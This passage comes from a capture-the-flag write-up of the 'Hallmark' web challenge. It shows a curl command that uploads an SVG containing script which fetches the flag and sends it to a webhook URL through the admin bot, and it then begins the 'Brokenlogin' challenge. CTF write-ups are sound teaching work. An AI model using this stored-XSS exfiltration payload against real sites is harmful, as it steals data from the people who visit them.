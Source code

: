 ```bash
curl -X PUT  https://hallmark.web.actf.co/card -d 'id=db106a88-01ae-4540-89c7-f0d7207eb71e&type[]=image/svg%2Bxml&svg=&content=<?xml version="1.0" encoding="utf-8"?>
<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 864 864" style="enable-background:new 0 0 864 864;" xml:space="preserve">
<script>
fetch("/flag")
    .then((response) => response.text())
    .then((text) => location.href="https://webhook.site/your_webhook_id?s="%2Btext);
</script>
</svg>'
ok%
```
Boom! We now altered the content of that card! and if we go to that card id and looked the source code we will indeed see that it is altered to our XSS-inflicted SVG!

Now we provide the URL with our card id to the admin bot, and verify (to a bot:) that we aren't so easy to deceive like him! Hitting submit button and then we go to our webhook site and there we get the flag!

![the flag!](/assets/img/Hallmark6.png){: .shadow  }

#### Learned: `SVG XSS`, `Loose comparison`


## 7. Brokenlogin
---

|  Difficulty  |  Point  | Downloadable files |
| :----------: |:-------:| :-----------------:|
|    8/10      |  40 pt  |        [Source code](https://files.actf.co/ce4cbaf2a4122a671028b0d3e1c407bbea8d64a3ffb123d63b4d6b6659305042/app.py), [Admin bot code](https://files.actf.co/c9bd78edc3de06985326cc9bda63e719a0c7092c8d8812f71ab6a9e52744db1a/brokenlogin.js)        |

### Challange description

> Talk about a garbage website... I don't think anybody's been able to [log in](https://brokenlogin.web.actf.co/) yet! If you find something, make sure to let the [admin](https://admin-bot.actf.co/brokenlogin) know.



### Solution

First, let's look at the website
